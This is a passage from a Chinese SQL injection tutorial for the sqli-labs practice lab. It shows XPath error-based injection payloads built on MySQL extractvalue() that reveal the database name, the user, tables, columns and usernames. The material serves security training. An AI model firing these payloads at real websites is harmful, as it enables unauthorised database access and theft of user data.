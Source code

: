 ## 2.4.Xpath报错注入

主要的是extractvalue函数只要两个参数哦,updatexml是3个,所以在进行构造语句时需要注意.

### 2.4.1.Xpath注入之extractvalue()

mysql> select extractvalue(1,concat(0x7e,(select database()),0x7e));

#### 2.4.1.1.爆库

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1” and extractvalue(1,concat(0x7e,(select database()),0x7e))--+
```

![bool34](/images/sqlall/bool34.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and extractvalue(1,concat(0x7e,(select user()),0x7e))--+
```

#### 2.4.1.2.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables
where table_schema='security' limit 0,1),0x7e))--+
```

![bool36](/images/sqlall/bool36.jpg)

#### 2.4.1.3.爆字段

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 0,1),0x7e))--+
```

![bool37](/images/sqlall/bool37.jpg)

#### 2.4.1.6.爆数据

````bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" and extractvalue(1,concat(0x7e,(select username from security.users limit
0,1),0x7e))--+
````

![bool38](/images/sqlall/bool38.jpg)

### 2.4.2.Xpath注入之updatexml()
